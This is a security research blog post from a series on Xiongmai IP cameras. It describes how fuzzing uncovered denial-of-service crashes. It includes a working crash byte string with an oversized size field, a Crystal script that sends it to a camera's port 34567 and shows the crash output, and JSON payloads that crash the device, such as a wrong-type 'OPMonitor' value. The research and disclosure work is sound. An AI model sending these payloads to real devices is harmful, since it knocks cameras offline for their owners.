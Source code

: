 ```yaml
---
layout: post
title:  "Xiongmai - An Investigative Journey 9 - Denial of Service"
date:   2019-09-04 08:00:00 +0100
tags: xiongmai, hacking, ipc
permalink: /xiongmai/9
---
```

During my fuzzing with Radamsa I uncovered a DoS that would take my camera down via the unprivileged user account. Lets find out exactly what caused the crash!

The first thing I did was backup the string, then I cut pieces out until the crash stopped working.

The first thing I did was cut out the "message" portion of the packet, the DoS still worked. After, I started removing bits of the header, which was also the wrong size. I also changed values in it to see what caused caused the crash and what didn't. I found that a size field over 0x80000000 would cause the crash.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\x85\x05" + "\x00\x00\x00\x80"
</code></pre>

This could mean a couple things, but most likely that someone used a signed variable for an unsigned integer, since size can never be below 0, this could cause an integer overflow error of some kind, most likely because the program is trying to read in a message size, either far beyond what was expected, or in the negative, causing a crash.

Currently, the exploit uses the magic for OPMonitor, but this vulnerability should affect any command we are allowed to access, and since the "login" command is the most unprivilieged, that should be the next target.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\xe8\x03" + "\x00\x00\x00\x80"
socket = MagicSocket.new("192.168.11.109", 34567)
#socket.login "default", Dahua.digest("tluafed")
socket.send crash_string
puts "SENT: #{crash_string.inspect}"
reply = socket.receive_message
puts "GOT: #{reply.message}"
</code></pre>

This produces:

<pre><code>
SENT: "\xFF\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\xE8\u0003\u0000\u0000\u0000\x80"

Unhandled exception:  (MagicError::ReceiveEOF)
  from src/magic_fuzzer/magic_socket.cr:0:7 in 'receive_message'
  from src/sandbox.cr:69:1 in '__crystal_main'
  from /usr/share/crystal/src/crystal/main.cr:97:5 in 'main_user_code'
  from /usr/share/crystal/src/crystal/main.cr:86:7 in 'main'
  from /usr/share/crystal/src/crystal/main.cr:106:3 in 'main'
  from __libc_start_main
  from _start
  from ???
</code></pre>

The ReceiveEOF proves that the socket closed and the server went down.

The camera will go down for about 2 minutes, while still responding to pings for a short period of time while it reboots. The client cannot connect during this reboot period.

<iframe width="616" height="380" src="https://www.youtube.com/embed/SnyPJtDDMFQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

While we do have an already working DoS exploit, there is a lot to be learned in further potential fuzzing. Working with Radamsa was a snap, and helped me find two new vulnerabilities, the "Message Quotes" and "Options Wrong Type" vulnerabilities.

## Message Quotes DoS
This one takes advantage of some error made in JSON processing, when given a message that consists entirely of two quotes, the camera crashes. Not really too much to say about it. Like the size int problem, this one works on all commands.
## Options Wrong Type DoS

This takes advantage of another issue in the JSON processing the camera's server does. This one only works on specific commands; OPTalk, OPMonitor, and OPRecordSnap. When these commands are sent, the have the option of including a hash of options under the root as the same name of command.

Example:
<pre><code class="json">
{
  "Name": "OPMonitor",
  "OPMonitor":  {
    "Action": "Claim",
    "Action1":  "Start",
    "Parameter":  {
      "Channel":  0,
      "CombinMode": "NONE",
      "StreamType": "Main",
      "TransMode":  "TCP"
    }
  },
  "SessionID":  "0x0000000007"
}
</code></pre>

Under the "OPMonitor" key, there is a hash of options. The server always expects the value under this key to always be a hash. However, weak checking, poor testing, and bad error handling allows us to crash the camera by swapping the hash with an non-nested type, like a string or a number. For example, the following string crashes the camera.

<pre><code class="json">
{
  "Name": "OPMonitor",
  "OPMonitor": 0,
  "SessionID":  "0x0000000007"
}
</code></pre>